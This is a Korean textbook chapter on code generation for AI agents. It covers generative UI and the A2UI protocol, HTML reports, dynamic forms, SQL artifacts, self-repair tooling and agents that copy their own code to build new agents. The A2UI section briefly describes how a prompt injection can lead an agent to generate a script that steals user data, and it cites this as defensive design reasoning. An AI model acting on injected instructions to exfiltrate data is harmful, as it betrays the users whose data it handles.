전통적 에이전트 시스템은 주로 순수 텍스트 대화로 사용자와 상호작용한다. 그러나 선형적이고 단일한 상호작용 방식인 텍스트는 많은 시나리오에서 효율이 낮다. 구조화 정보를 수집할 때 일문일답을 반복하면 대화가 장황해진다. 복잡한 데이터 관계를 표현할 때 순수 텍스트의 표현력은 제한적이다. 사용자가 여러 선택지에서 고르게 할 때 텍스트 목록은 시각적 인터페이스보다 직관성이 한참 떨어진다.

코드 생성은 이런 제한을 돌파할 가능성을 제공한다. 에이전트는 폼, 대화형 차트, 심지어 완결된 웹 응용을 동적으로 생성하여, 정적 텍스트 대화를 풍부한 다모달 상호작용으로 격상시킨다. 이렇게 에이전트가 인터페이스를 동적으로 생성하는 모드를 **제네러티브 UI(Generative UI)**라 부른다.

**A2UI형 프로토콜: 제네러티브 UI의 표준화.**

에이전트가 UI용으로 직접 HTML과 JavaScript 코드를 생성할 때, 근본적 보안 문제가 따른다. 생성된 코드가 악의적 내용을 포함할 수 있다. 예컨대 누군가 입력에 고의로 지시를 숨겨 넣으면, 에이전트가 프롬프트 주입에 조종당해 자기도 모르게 사용자 데이터를 슬쩍 빼가는 스크립트를 생성할 수 있다. 여기서 인과관계를 짚어야 한다. 원인은 **프롬프트 주입**(악의적 지시가 에이전트의 입력에 섞여 들어옴)이며, 브라우저에서 악의적 스크립트가 실행되고 데이터를 빼가는 **결과**는 전통적 웹의 XSS(사이트 간 스크립팅, Cross-Site Scripting)와 비슷하다. 그렇다고 전체 공격을 그냥 XSS라 부를 수는 없다. A2UI(Agent-to-User Interface)로 대표되는 선언적 인터페이스 프로토콜이 더 안전한 방향을 제공한다. 에이전트는 직접 실행 가능한 코드를 생성하지 않고, "인터페이스 기술 청서"(JSON 형식)만 출력한다. 예컨대 "3행 2열의 표를 보여 주시는데, 제목은 '영업 데이터'입니다"라고. 클라이언트는 이 청서를 받은 뒤, 자신이 미리 준비해 둔 안전한 컴포넌트로 인터페이스를 렌더링한다. 식당의 메뉴와 같다. 손님(에이전트)은 메뉴에 있는 요리(미리 정의된 컴포넌트)만 주문할 수 있고, 주방에 들어가 직접 만들(임의의 코드를 실행할) 수는 없다. 여기서 흔한 혼동 하나를 짚자. AG-UI(Agent-User Interaction, CopilotKit 제안)는 이름은 비슷하지만 인터페이스 기술 언어가 아니라 그에 딸린 **이벤트/전송 프로토콜**이며, 에이전트의 실행 상태(메시지, 도구 호출, 상태 패치)를 프런트엔드에 스트리밍으로 밀어 넣는 역할을 담당한다. AG-UI 자체가 A2UI 같은 인터페이스 페이로드를 싣는 것도 가능하다. 그러므로 둘은 보완적이지 동류가 아니며, 같은 "선언적 인터페이스 프로토콜"로 나란히 놓아서는 안 된다.

이런 프로토콜의 핵심 설계 원칙은 **안전 우선**이다. 클라이언트가 신뢰할 수 있는 컴포넌트 디렉터리(Card, Button, TextField, Table 등)를 유지하고, 에이전트는 디렉터리에 이미 있는 컴포넌트의 렌더링만 요청할 수 있으며, 임의의 코드를 주입할 수 없다. 클라이언트는 에이전트가 생성한 임의 HTML을 실행하는 것이 아니라 자신의 네이티브 컴포넌트로 렌더링한다. 이런 프로토콜은 대개 **크로스 플랫폼**(같은 기술이 React, Flutter, 네이티브 응용에서 렌더링)과 **점진적 생성**(스트리밍 JSONL 형식, 받으면서 렌더링)도 지원한다.

물론 선언적 방법은 표준화된 상호작용 시나리오(폼, 표, 카드)에 적합하며, 고도로 맞춤화된 요구(맞춤형 시각화, 게임 인터페이스)에는 여전히 직접 코드 생성이 더 유연한 선택이다. 아래에 두 모드의 구체적 응용을 보여 준다.

**HTML로 산출물을 전달: 마크다운 보고를 대체하다.** 제네러티브 UI는 상호작용 과정에만 쓰이는 게 아니라, 에이전트가 최종 **산출물을 전달**하는 형태도 바꾸고 있다. 전통적으로 에이전트는 한 과제를 마친 뒤 흔히 마크다운 보고 문서를 산출했다. 그러나 선형 배열의 마크다운을 한 장 한장 넘겨 읽는 것은 사실 읽기에 좋지 않다. 에이전트의 프런트엔드 코드 생성 능력이 갈수록 강해지면서, 점점 더 많은 실천이 직접 HTML을 산출하도록 바뀌고 있다. 마크다운에 비해 HTML 산출물은 몇 가지 분명한 장점이 있다. 첫째, **대화형 시연**이다. 시스템이 어떻게 돌아가는지를 조작 가능한 형태로 직접 시연할 수 있어, 사용자가 한눈에 이해하는 경우가 많으며, 긴 글 설명보다 낫다. 둘째, **더 나은 데이터 시각화**다. 표 대신 차트로 데이터를 표현하고, 대화형 컴포넌트를 구성하여 사용자가 직접 둘러보고 걸러내고 자신이 관심 있는 세부까지 파고들게 할 수 있다. 셋째, **계속 다듬을 수 있는 산출물**이다. HTML 사이트는 과제가 끝날 때 한 번에 산출되는 죽은 물건이 아니라, 작업이 진행됨에 따라 에이전트가 계속 보충하고 완성해 갈 수 있다.

필자 자신이 논문을 쓰는 경험을 예로 든다. 매 연구 프로젝트마다 필자는 대화형 웹사이트[^ch5-4]를 하나씩 유지하는데, 그것은 최종 산출물인 동시에 연구 과정의 살아 있는 문서다. 필자는 에이전트에게 실험이 진행됨에 따라 그것을 계속 갱신하게 한다. 이 웹사이트는 적어도 세 종류의 역할을 담당한다. 첫째, **실험 데이터 추적**: 매 실험의 구체적 데이터, 사용한 프롬프트, LLM의 원시 회신을 웹사이트에서 한 줄씩 볼 수 있다. 이것들을 펼쳐 놓으면 오히려 데이터 구성, 데이터 형식, 데이터 분포의 문제를 더 발견하기 쉽고, LLM의 회신과 판정자(judge)의 점수 사이에 체계적 편향이 있는지도 더 잘 보인다. 둘째, **훈련 지표 모니터링**: 훈련 과정의 각 곡선을 웹페이지에 바로 나열해, 언제든 모델의 **내과 지표**가 건강한지 확인하기 편하게 한다. 여기서 의학의 "내과"라는 말을 빌려 썼다. 내과 지표는 훈련 과정 자체가 정상인지 반영하는 내부 신호를 뜻한다. 예컨대 훈련 손실과 검증 손실, 기울기 노름, 학습률, 모델 출력 토큰의 헷갈림도(perplexity, 모델이 자신이 생성한 내용을 얼마나 "확신"하는지를 잰다), 강화학습에서의 보상, KL 발산, 정책 엔트로피 등. 이런 것들은 과제 정확도 같은 최종 결과 지표와 다르다. 건강검진의 각 생리 지표가 사람의 겉모습에 대하듯, 내과 지표는 손실 수렴 실패, 기울기 폭발, 훈련 붕괴 등의 문제를 더 일찍 드러낸다. 셋째, **실행 원리 전시**: 시각화 방식으로 전체 시스템의 실행 원리를 제시하여, AI로 구축된 이 시스템이 도대체 어떤 구조인지 한눈에 보이게 한다.

[^ch5-4]: 필자의 연구 프로젝트 웹사이트는 https://01.me/research/ 에서 볼 수 있으며, 각 프로젝트마다 계속 갱신되는 대화형 웹사이트가 딸려 있다.

**사용자 의도 명확화.**

사용자의 요구 표현이 모호하거나 불완전할 때, 에이전트는 명확화 질문으로 필요한 정보를 수집해야 한다. OpenAI Deep Research 등 제품은 흔히 텍스트 일문일답 방식을 채택하지만, 여기에는 분명한 한계가 있다. 효율 면에서, 매 질문마다 한 차례 대화가 필요하고 열 개의 명확화 지점에는 열 차례의 상호작용이 필요하다. 표현력 면에서, 어떤 질문 사이에는 의존 관계가 있다("여행 목적지 선택"이 "교통 수단"의 옵션에 영향을 줌 등), 순수 텍스트는 이런 연쇄 관계를 표현하기 어렵다.

코드 생성을 통해 에이전트는 구조화된 상호작용 인터페이스를 만들어 텍스트 일문일답을 대체할 수 있다. 그림 5-8은 동적 폼 생성 흐름을 보여 주며, 에이전트가 명확화 질문을 한 번에 작성하는 구조화 인터페이스로 바꾸는 과정을 설명한다. 에이전트는 각종 입력 컨트롤을 담은 HTML 폼을 생성한다. 텍스트 상자는 개방형 정보를 수집하고, 드롭다운 메뉴는 미리 정의된 옵션에서 고르게 하며, 체크상자는 다중 선택을 허용하고, 날짜 선택기는 시간 입력을 단순화한다. 더 나아가, 에이전트는 연쇄 폼을 생성할 수 있다. JavaScript로 동적 논리를 구현하여, 어떤 옵션을 선택하면 뒤의 질문을 자동으로 보이거나 숨기고, 옵션을 동적으로 갱신한다. 사용자는 폼 전체를 한 번에 작성하여, 여러 차례의 대화 없이도 모든 작성 정보와 질문 간의 논리 관계를 또렷이 볼 수 있다.




> **실험 5-9 ★★: 동적 폼 생성의 의도 명확화 시스템**
>
> **실험 목표**: 에이전트가 동적으로 HTML 폼을 생성해 사용자 의도를 명확화하는 능력을 검증한다.
>
> **기술 방안**: 에이전트가 사용자 요청을 분석하고, 명확화 지점을 식별하고, 연쇄 논리가 딸린 폼 코드를 생성한다. 프런트엔드가 렌더링하고, 사용자가 한 번에 제출하면, 에이전트는 JSON 데이터를 파싱해 과제를 이어 간다.
>
> **인수 기준**: 사용자가 "베이징 가는 비행기 표 한 장 예약해 줘"라고 입력하면, 에이전트는 출발 도시(텍스트 입력), 출발 날짜(날짜 선택기), 여행 유형(단일 선택: 편도/왕복), 귀국 날짜("왕복" 선택 시에만 표시)를 포함한 폼을 생성한다. 사용자가 한 번에 제출해 모든 정보를 완료한다.
>

**SQL 질의 생성.**

데이터베이스 질의는 코드 생성이 상호작용 경험을 눈에 띄게 높일 수 있는 시나리오다. 전통적 데이터베이스 접근은 GUI 도구나 손으로 작성한 SQL에 의존하는데, 전자는 조작이 번거롭고 후자는 사용자의 전문 지식을 요구한다. 에이전트는 자연어를 SQL로 바꿀 수 있지만, 여기에 핵심적 설계 선택이 하나 있다. 에이전트가 SQL을 실행한 뒤 자연어로 결과를 기술하게 할 것인가, 아니면 에이전트가 SQL 코드를 아티팩트(artifact)로 생성해 프런트엔드가 직접 실행하게 할 것인가?

첫 번째 방안은 더 "지능적"으로 보이지만 효율이 극히 낮다. 질의 결과는 수천 줄의 큰 표일 수 있으며, LLM이 읽고 난 뒤 글로 기술하게 하면 토큰을 대량 소비하고 시간이 오래 걸릴 뿐 아니라, 더 심각하게는 LLM이 데이터를 "베껴 쓸" 때 오류가 매우 잦다. 더 나은 방안은 **아티팩트 모드**다. 그림 5-9는 SQL 질의 에이전트의 작업 흐름을 보여 준다. 에이전트는 스스로 데이터를 읽지 않고, SQL 질의 코드 한 조각을 생성해 이 코드를 독립된 "아티팩트"(artifact)로 시스템에 넘긴다. 시스템은 이 SQL을 들고 데이터베이스에 직접 질의해, 얻은 데이터를 사용자가 볼 수 있는 표로 렌더링한다. 전체 과정에서 데이터는 데이터베이스에서 사용자 인터페이스로 곧장 가고, LLM이라는 "중간 사람"을 완전히 우회한다. LLM은 오직 질의문을 작성할 뿐, 수만 줄의 데이터를 직접 읽고 사용자에게 다시 전달할 필요가 없어, 빠르고 정확하다.




나아가, 에이전트는 두 개의 아티팩트를 생성해 파이프라인을 형성할 수 있다. SQL 질의 + 시각화 코드(막대그래프 등). 프런트엔드는 SQL 결과를 시각화 코드에 직접 넘기며, LLM은 코드 생성만 담당하고 데이터 전달에는 관여하지 않는다. 이것이 바로 코드 생성을 인터페이스로 쓰는 정수다.

> **실험 5-10 ★★: 자연어 상호작용 ERP 에이전트**
>
> ERP(기업 자원 계획) 소프트웨어는 기업의 핵심 시스템으로, 현재 대개 GUI 인터페이스를 사용하며, 복잡한 조작은 마우스 클릭을 여러 차례 필요로 한다. AI 에이전트는 사용자의 자연어 질의를 SQL 문으로 변환해 자동화 질의를 구현할 수 있다.
>
> PostgreSQL 데이터베이스를 구축하고, 두 개의 표를 담는다. (1) 직원 표: 직원 ID, 이름, 부서, 직급, 입사일, 퇴사일(빈 값은 재직 중임). (2) 급여 표: 직원 ID, 지급일, 급여(월별 한 건). 에이전트가 자동으로 답한다:
>
> 1. 직원 평균 재직 기간은?
> 2. 부서별 재직 직원 수는?
> 3. 어느 부서 직원의 평균 직급이 가장 높은가?
> 4. 부서별 올해와 작년 각각 신규 입사자는 몇 명인가?
> 5. 재작년 3월부터 작년 5월까지, A 부서의 평균 급여는?
> 6. 작년 A 부서와 B 부서의 평균 급여는 어느 쪽이 더 높은가?
> 7. 올해 직급별 직원 평균 급여는?
> 8. 입사 1년 미만, 1~2년, 2~3년 직원의 최근 한 달 평균 급여는?
> 9. 작년부터 올해까지 인상 폭이 가장 큰 직원 10명은?
> 10. 급여 체불이 있나(어떤 달에 재직 중인데 급여 미지급)?
>

**소프트웨어 동적 생성.**

코드 생성 능력의 궁극 응용은, 에이전트가 완전히 동적으로, 제로에서 시작해 소프트웨어를 창조하게 하는 것이다. 앤스로픽의 "Imagine with Claude"는 이 가능성의 경계를 보여 준다. 사용자가 요구하면, 클로드가 실시간으로 프런트엔드 인터페이스와 상호작용 논리를 생성하고, 사용자는 생성된 소프트웨어와 상호작용하며, 클로드는 코드를 수정해 새 인터페이스를 생성해 조작 결과를 표시한다. 전체 과정에서 사용자는 없다가 생겨나고, 계속 진화하는 응용 프로그램을 보게 된다.

다만 이렇게 완전히 동적으로 생성하는 모드는 비용과 지연이 높아, 능력 경계를 보여 주는 실험에 더 어울린다. 더 실무적인 방향은 **기존 프레임워크에 기반한 맞춤형 수정**이다. 이런 "반 맞춤" 모드는 기본 소프트웨어의 안정성은 유지하면서, 특정 차원에서 사용자 통제권을 개방한다. 사용자가 "버튼을 파란색으로 바꿔 줘", "사이드바에 단축 메뉴를 추가해 줘", "글꼴을 더 읽기 쉬운 양식으로 바꿔 줘"라고 하면, 에이전트는 요구를 이해하고 프런트엔드 코드를 수정하며, 핫 리로드(HMR, Hot Module Replacement, 부분적 핫 교체, 응용 상태를 유지한 채 페이지 전체를 새로고침할 필요 없이 즉시 발효)로 즉시 효과를 낸다. 이는 "획일적" 표준 제품을 "개인화" 경험으로 바꾼다.

> **실험 5-11 ★★: 대화형 인터페이스 맞춤 시스템**
>
> **실험 목표**: 사용자가 자연어 대화로 소프트웨어 인터페이스를 즉시 맞춤화하는 능력을 구현하여, 핫 리로드 메커니즘이 지원하는 코드 생성이 개인화 사용자 경험을 제공하는 데 효과가 있음을 검증한다.
>
> **기술 방안**: 기본 chatbot 응용(React 프런트엔드 + FastAPI 백엔드)을 구축하고, 앞뒤 양쪽 모두 개발 모드로 실행해 핫 리로드를 지원한다(React의 HMR, FastAPI의 reload). 사용자가 대화에서 UI 맞춤 요구(색상, 글꼴, 레이아웃, 컴포넌트 위치 등)를 제시하면, 에이전트가 자율적으로 코드를 수정한다. 핫 리로드 메커니즘이 파일 변화를 자동 감지해 프런트엔드를 다시 컴파일·갱신하고, 사용자는 실시간으로 인터페이스 변화를 본다. 다회 반복 맞춤을 지원한다.
>

### 코드가 코드를 창조한다: 에이전트 부트스트래핑

앞의 몇 절은 코드 생성이 각 영역에서 갖는 응용을 보여 주었다. 수학 사고에서 문서 창작, 인터페이스 맞춤까지. 이 능력들을 극한까지 밀어붙이면, 하나의 자연스러운 질문이 떠오른다. 에이전트가 코드 생성 능력으로 또 다른 에이전트를 창조할 수 있지 않을까?

여기서 먼저 제8장과 분업을 명확히 해 둔다. 이 절이 말하는 것은 에이전트가 코드로 **자신과 동류의 에이전트를 수리하고 창조하는 것**이다. 자기 수리, 자기 복제, 필요에 따라 새 에이전트를 번식시키는 것으로, 작용 대상은 에이전트의 코드와 구조다. 제8장의 "자기 진화"는 또 다른 이야기로, 에이전트가 **모델 가중치를 바꾸지 않는** 전제 아래 능력을 계속 키우는 것(경험 침전, 프롬프트 최적화, 도구 축적)이며, 작용 대상은 에이전트의 지식과 전략이다. 둘 다 "진화"라 불릴 수 있어, 제8장 장 제목과 혼동을 피하려 이 절에서는 **부트스트래핑(bootstrapping)**으로 "코드로 에이전트를 생산하는" 능력을 부른다.





**에이전트의 자기 수리: OpenClaw Doctor.**

에이전트 부트스트래핑의 중요한 전제는 자기 수리 능력이다. OpenClaw의 `doctor` 명령은 바로 이 능력의 구현이다. 이 명령은 세 부류의 문제를 자동 검출한다.

- **설정 이상**: 만료된 OAuth 토큰, 과거 설정 형식의 잔재, 포트 충돌.
- **상태 문제**: 오래된 세션 잠금 파일, 플러그인 의존성 누락.
- **서비스 건강 문제**: 게이트웨이 미실행, 샌드박스 이미지 누락.

이어서 단계적 복구 전략으로 자동 해결한다. 안전한 복구(설정 정규화, 잠금 파일 정리)는 자동 실행되고, 위험한 조작(서비스 재시작, 설정 강제 덮어쓰기)은 사용자 확인을 필요로 한다.

여기서 하나의 과장을 피해야 한다. 만료된 토큰, 잠금 파일, 포트 충돌 같은 고빈도 문제는 그 자체로 명확한 검출 규칙과 고정된 복구 동작을 가지며, `doctor`는 **한 무리의 확정적 검사를 기반**으로 먼저 그것들을 덮는다. 이는 전통적 운영 스크립트와 본질적으로 다르지 않다. 진짜 에이전트 능력을 보여 주는 것은 두 번째 층이다. 확정적 규칙이 덮지 못한 난문에 대해, `doctor`는 다시 LLM에 넘겨 오류 로그를 분석하고, 설정 파일의 의미를 이해하고, 문제의 인과관계를 추론하여,맞춤형 복구 방안을 생성한다. 확정적 검사가 흔한 문제의 안정적 복구를 보장하고, LLM이 꼬리의 난문을 떠맡는다. 두 층이 협력해야 `doctor --fix`가 흔한 게이트웨이 문제의 상당 부분을 자동 해결할 수 있다. 이런 "에이전트가 에이전트를 수리하는" 모드는, 에이전트의 작업 대상이 외부 시스템이 아니라 자기 자신의 실행 환경이 될 때, 자기 수리 능력은 시스템 어댑터에서 에이전트 부트스트래핑의 인프라로 격상된다.

**에이전트가 에이전트를 작성하게 하는 핵심 기법.**

고품질 에이전트를 창조하는 것은 보통 응용 코드를 생성하는 것보다 훨씬 복잡하다. 에이전트 아키텍처 패턴, 모범 사례, 흔한 함정에 대한 깊은 이해가 필요하기 때문이다. 이런 영역 전문 지식이 부족하면, 가장 강력한 코드 생성 모델조차 아키텍처에 심각한 결함을 지닌 에이전트를 만들어 낼 수 있다. 흔한 결함은 이렇다.

1. **컨텍스트 관리의 무원칙**: 제2장이 논의한 표준 컨텍스트 형식을 채택하지 않고, 궤적을 순수 텍스트로 바꿔 컨텍스트에 밀어 넣으며, 구조화 메시지가 가져오는 KV Cache 최적화를 무시하고, 도구 호출 순환에 경계 버그가 있다.
2. **도구 설계의 비규범**: 설명이 간략하고, 사용 경계 설명과 부정적 목록이 빠져 있으며, 매개변수에 구체적 예시가 없다.
3. **기술 선택의 지체**: 훈련 데이터에서 가장 흔하지만 이미 시대에 뒤떨어진 모델과 API를 사용하려는 경향. 해법: SOTA 지식베이스를 유지하거나 에이전트에게 검색 능력을 부여.
4. **외부 생태의 단절**: 폐기된 API, 더 이상 유지되지 않는 라이브러리, 결함이 있는 패턴 사용.

이런 문제를 풀 가장 효과적 경로는, 프롬프트에서 모든 규칙을 총동원하는 것이 아니라 **고품질 에이전트 구현을 참고 예로 제공**하고, 코드 생성 에이전트가 제로에서 시작하는 대신 그 위에서 수정하도록 이끄는 것이다.

"예 기반 생성"의 장점은 분명하다. 예시 코드 자체가 모범 사례의 그릇이며, 에이전트는 제로에서 작성하는 것보다 예시에서 고치는 쪽이 더 올바르게 하기 쉽고, 아키텍처상의 좋은 선택이 자연스럽게 보존된다. 프롬프트에서 매 규칙을 일일이 말할 필요가 없다.

에이전트는 새 에이전트를 개발하는 과제를 받으면, 먼저 자기 자신의 코드(또는 다른 검증된 고품질 구현)를 복사한 뒤, 맞춤형으로 수정해야 한다. 시스템 프롬프트를 새 역할에 맞게 조정하고, 도구를 교체하거나 더하고 빼서 새 기능에 적응시키며, 비즈니스 논리는 수정하되 아키텍처 골격은 보존한다. 이런 "자기 복제와 적응적 수정" 모드는 새 에이전트가 핵심 기술 우위를 계승하게 하면서도 특정 차원에서의 차별화를 허용한다. 생물학에서의 유전 복제와 변이처럼.

> **실험 5-12 ★★★: 에이전트를 창조하는 에이전트 개발**
>
> **실험 목표**: 메타프로그래밍(Metaprogramming, 다른 프로그램을 생성하거나 수정하는 프로그램을 작성하는 기법) 능력을 갖춘 코딩 에이전트를 구축하여, 사용자 요구에 따라 자동으로 새 에이전트 시스템을 창조하고 모범 사례를 따르게 한다.
>
> **기술 방안**: 코딩 에이전트에게 고품질 에이전트 구현을 참고 예로 제공한다(ch5/coding-agent 프로젝트 자체를 써도 좋다). 새 에이전트 생성 요구를 받으면, 에이전트는 먼저 이 예 코드를 복사하고, 이어 사용자의 구체적 요구에 기반해 맞춤형으로 수정한다.
>
> **인수 기준**: 생성된 에이전트가 성공적으로 실행되고 기본 과제를 완수한다. 표준 메시지 형식과 도구 호출 프로토콜을 채택하고, 현재 권장되는 모델과 API를 사용함을 검증한다. 다회 대화에서 컨텍스트와 상태 관리의 정확성을 테스트한다. 제로 생성과 예 기반 수정 두 모드를 대비하여, 후자가 품질과 효율에서 갖는 우위를 검증한다.
>
>
> 
>
>

에이전트 부트스트래핑은 코드 생성 능력의 궁극 응용을 구현한 것이다. 에이전트를 창조할 수 있는 에이전트는 지능의 자기 번식을 실현한다. 이상으로, 코딩 에이전트의 기초에서 코드 생성의 다원적 가치, 부트스트래핑까지의 완결된 주선을 정리했다.

## 이 장의 정리

이 장이 논의한 핵심은 줄곧 같은 한 가지였다. 코드는 단지 프로그램을 작성하는 도구가 아니라, 에이전트가 형식화 사고를 하고 정확하게 표현하는 언어라는 것이다.

하네스 엔지니어링 절의 핵심 결론은 이렇다. 코딩 에이전트의 성숙도가 높은 것은 코드 생성 모델이 특별히 강해서가 아니라, 소프트웨어 엔지니어링이 수십 년간 모은 인프라—테스트 스위트, 타입 시스템, 버전 관리—가 자연스럽게 강력한 하네스 한 벌을 구성하기 때문이다. 이 결론은 다른 에이전트 시나리오로도 널리 확장할 가치가 있다. 장애와 오류 복구 절은 같은 주제의 다른 측면을 제시한다. 에이전트의 신뢰성은 모델이 오류를 저지르느냐에 달린 것이 아니라, 각 부류의 장애에 대응하는 검출, 복구, 종료 경로가 있는지에 달려 있다.

둘째 부분은 코드 생성이 프로그래밍 바깥에서 갖는 넓은 가치를 보여 주었고, 본문의 여섯 차원에 대응한다.

- **사고 도구**: 기호 계산과 제약 해석으로 확률적 사고의 부족을 보완.
- **비즈니스 규칙 제약**: 모호함 없는 방식으로 비즈니스 규칙을 표현하고, 되돌릴 수 없는 조작 시나리오에서 확정적 안전 방어선을 제공. 이런 안전 보장의 가치는 구현 비용을 훨씬 넘어선다.
- **멀티미디어 생성**: 제안자-검토자 메커니즘으로 PPT, 비디오 등 다모달 콘텐츠를 생성.
- **시스템 어댑터**: 형식 진화를 자동으로 따라가 로그 파싱과 문제 진단의 완전 자동화를 구현.
- **제네러티브 UI**: 폼, 시각화 차트, 심지어 완전히 맞춤 가능한 응용을 동적으로 생성하여 순수 텍스트의 제한을 돌파.
- **에이전트 부트스트래핑**: 코드로 동류 에이전트를 수리하고 창조하여, 에이전트를 창조하는 에이전트를 실현.

코드가 에이전트에게 갖는 가치는 이것이다. 그것은 과제를 완수하는 수단인 동시에, 지식을 축적하고, 도구를 창조하고, 자신을 최적화하는 메커니즘이다. 참된 의미에서의 "메타 능력"인 것이다.

이로써 세 기둥 가운데 컨텍스트와 도구 두 기둥의 논의를 마쳤다. 코드 생성은 그 가운데 범용성이 가장 강한 도구다. 그러나 핵심 질문 하나가 아직 답해지지 않았다. 이런 설계 결정의 효과를 어떻게 과학적으로 잴 것인가? 다음 장부터 세 번째 기둥인 모델에 들어가며, 먼저 평가부터 다룬다. 다음 장은 평가 환경 구축, 데이터셋 설계에서 보상 모델과 평가 주도의 모델 선택까지 완결된 평가 방법론을 구축하여, 앞선 모든 장이 논의한 기술 방안에 정량적 검증 수단을 제공한다.

## 사고 문제

1. ★★ 코드 생성은 에이전트의 "메타 능력"이라 불린다. 그러나 코드 실행은 보안 위험을 도입한다. 에이전트가 생성한 코드가 취약점, 무한 순환, 자원 고갈을 포함할 수 있다. 샌드박스 격리는 일부 문제를 해결하지만 코드 능력도 제한한다(예컨대 네트워크나 파일 시스템 접근 불가). 안전성과 능력 사이의 최적 균형점을 어떻게 찾을 것인가?
2. ★★★ 에이전트 부트스트래핑—에이전트를 창조할 수 있는 에이전트—는 "지능의 자기 번식"을 실현했다. 그러나 매 부트스트래핑마다 새로운 편향이나 오류가 도입될 수 있고, 이런 오류가 세대 간에 누적될 수 있지 않을까? 에이전트 부트스트래핑의 퇴화를 어떻게 막을 것인가?
3. ★★ 코드 생성 에이전트는 로그 파싱을 처리할 때 형식 진화를 자동으로 따라갈 수 있다. 그러나 형식 변화가 예정된 변경이 아니라 버그일 경우, 에이전트의 적응성이 오히려 문제를 감춘다. 에이전트는 "적응해야 할 변화"와 "보고해야 할 이상"을 어떻게 구분해야 할까?
